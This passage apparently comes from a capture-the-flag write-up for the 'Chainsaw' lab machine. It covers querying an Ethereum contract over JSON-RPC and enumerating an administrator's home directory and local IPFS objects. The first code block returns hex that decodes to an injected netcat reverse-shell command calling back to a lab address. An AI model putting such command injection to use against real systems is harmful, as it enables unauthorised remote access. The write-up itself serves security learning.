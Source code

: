 {% highlight console %}
$ curl 10.10.10.142:9810 -X POST --data '{"jsonrpc":"2.0","method":"eth_call","params":[{"from": "0xa6bcc6ac459ad9d568f0d11365cd5541496bf008", "to": "0x4a3e40bb27f21d30d51f636f31b129c3c9956177", "data": "0xb68d1809"}, "latest"]}'

{"jsonrpc":"2.0","result":"0x0000000000000000000000000000000000000000000000000000000000000020000000000000000000000000000000000000000000000000000000000000002b31302e31302e31342e332026206e63202d6520272f62696e277368272031302e31302e31342e3320343433000000000000000000000000000000000000000000"}
{% endhighlight %}
## 3. Local Enumeration

By a quick overview of administrator’s home folder, we will notice a CSV file, a _maintain_ directory and a couple of hidden directories.

The CSV file holds information about Chainsaw employees with their usernames, role status, and role descriptions. It seems that only the user _bobby_, who is a smart contract auditor, is the only one active at the moment, and we can confirm this by his home directory presence in _/home_ and a valid Unix shell in _/etc/passwd_. In conclusion, we need to escalate to _bobby_ to grab the user flag.

The _maintain_ directory seems to contain employees public RSA keys (which were probably generated from the _gen.py_ script – which also generates encrypted private keys, except, they are the ones missing).

Furthermore, among hidden directories in which mostly have little to no value, _.ipfs_ is an interesting one which may give us necessary information to proceed further in this box. InterPlanetary File System (IPFS) is a peer-to-peer network protocol that utilizes distributed systems (including blockchain) with its main objective of hypermedia sharing.

With the aim of replacing HTTP, it is an open source project available on <a href="https://github.com/ipfs/ipfs">GitHub</a>, therefore, it is already available for installation in different systems, including Linux – where we can confirm its presence by issuing a simple <a href="https://docs.ipfs.io/reference/api/cli/">command</a> to retrieve our own peer information:

{% highlight console %}
$ ipfs id
{
        "ID": "QmPfaAfb157bVHC1Y3waMEkX5QHjrF5UrvHqcNdp4R1BGy",
        "PublicKey": "CAASpgIwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDeME8+9MUmzPvifqnqC7dM4rtPfqOn4STLZxC5OgizeavrygOubfKosRdRkKNkm9DdNTsR5gB9QANiHkRnQ57bLwheH4o895Ib/lW/WOhwmOtks1iV9VIUj7DTnuQDNcN2IuVcnpC8x5HFQoNIgsj2HgqxLnlPCJboaTYo3oGwflqE2o2+/pwZjM2My3ux9FYCg7GhEpXO6WGpH6Jxq2Z3wOA1z1qVSOmAPSPgSOvvFGvKyfU6ntta8qd3EC15x4002CB9OSA/pTbchSTr3gS9QOMq5Wn55vEwNaOFNf/qOImaRWYER8epyHB/E4kKJ9XAeL7U7xfKpQDhrqvEdq2/AgMBAAE=",
        "Addresses": null,
        "AgentVersion": "go-ipfs/0.4.18/",
        "ProtocolVersion": "ipfs/0.1.0"
}
{% endhighlight %}

In IPFS, every link/file is identified with a unique hash. However, as seen from the process list, IPFS daemon is not running which means that it is only running locally.

To list all objects stored in the local IPFS repository, we will use the following command:

{% highlight console %}
$ ipfs refs local
QmYCvbfNbCwFR45HiNP45rwJgvatpiW38D961L5qAhUM5Y
QmPctBY8tq2TpPufHuQUbe2sCxoy2wD5YRB6kdce35ZwAx
QmbwWcNc7TZBUDFzwW7eUTAyLE2hhwhHiTXqempi1CgUwB
QmdL9t1YP99v4a2wyXFYAQJtbD9zKnPrugFLQWXBXb82sn
QmSKboVigcD3AY4kLsob117KJcMHvMUu6vNFqk1PQzYUpp
...
QmZZRTyhDpL5Jgift1cHbAhexeE1m2Hw8x8g7rTcPahDvo
QmUH2FceqvTSAvn6oqm8M49TNDqowktkEx4LgpBx746HRS
QmcMCDdN1qDaa2vaN654nA4Jzr6Zv9yGSBjKPk26iFJJ4M
QmPZ9gcCEpqKTo6aq61g2nXGUhM4iCL3ewB6LDXZCtioEB
Qmc7rLAhEh17UpguAsEyS4yfmAbeqSeSEz4mZZRNcW52vV
{% endhighlight %}
